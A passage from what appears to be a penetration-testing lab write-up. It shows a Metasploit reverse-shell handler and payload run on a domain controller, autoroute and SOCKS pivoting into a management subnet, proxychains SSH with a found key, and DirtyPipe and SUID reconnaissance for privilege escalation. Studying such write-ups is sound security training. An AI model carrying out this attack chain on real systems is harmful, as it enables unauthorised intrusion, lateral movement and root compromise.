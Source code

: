 ### 🎯 Metasploit Routing Configuration
```bash
# Multi/handler setup
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 8443
run

# DC01 payload execution
.\dc_shell.exe
# Result: Meterpreter session through double tunnel

# Route addition for management network
run autoroute -s 172.16.9.0/23
# Result: Direct access to protected subnet

# SOCKS proxy establishment
use auxiliary/server/socks_proxy
set SRVPORT 9050
set VERSION 4a
run
# Result: ProxyChains access to 172.16.9.0/23
```

## 🖥️ MGMT01 Host Compromise

### 🔑 SSH Key Authentication
```bash
# Management network connectivity test
proxychains nmap -sT -p 22 172.16.9.25
# Result: SSH service accessible

# SSH key authentication
chmod 600 ssmallsadm-key
proxychains ssh -i ssmallsadm-key ssmallsadm@172.16.9.25

# Successful access:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.10.0-051000-generic x86_64)
ssmallsadm@MGMT01:~$
```

### 🔍 System Information Gathering
```bash
# Kernel version analysis
uname -a
# Output: Linux MGMT01 5.10.0-051000-generic #202012132330 SMP

# Vulnerability research:
CVE-2022-0847 (DirtyPipe) - Kernel 5.10.0 vulnerable
# Impact: Local privilege escalation to root

# SUID binary enumeration
find / -perm -4000 2>/dev/null
# Target: /usr/lib/openssh/ssh-keysign
```
